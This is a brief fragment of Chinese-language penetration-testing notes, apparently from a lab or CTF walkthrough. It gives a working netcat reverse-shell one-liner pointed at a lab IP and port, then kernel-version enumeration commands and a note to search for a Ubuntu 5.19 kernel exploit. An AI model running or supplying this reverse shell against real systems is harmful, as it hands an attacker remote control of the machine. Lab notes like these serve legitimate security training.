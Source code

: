 

反弹shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.65 5566  >/tmp/f
```

查看内核版本

```
uname -a
cat /proc/version
ubuntu 5.19
```

![img](../图片/截图_2023-12-14_20-27-35.png)



使用g.cn搜索

```
ubuntu 5.19.0 exploit
```
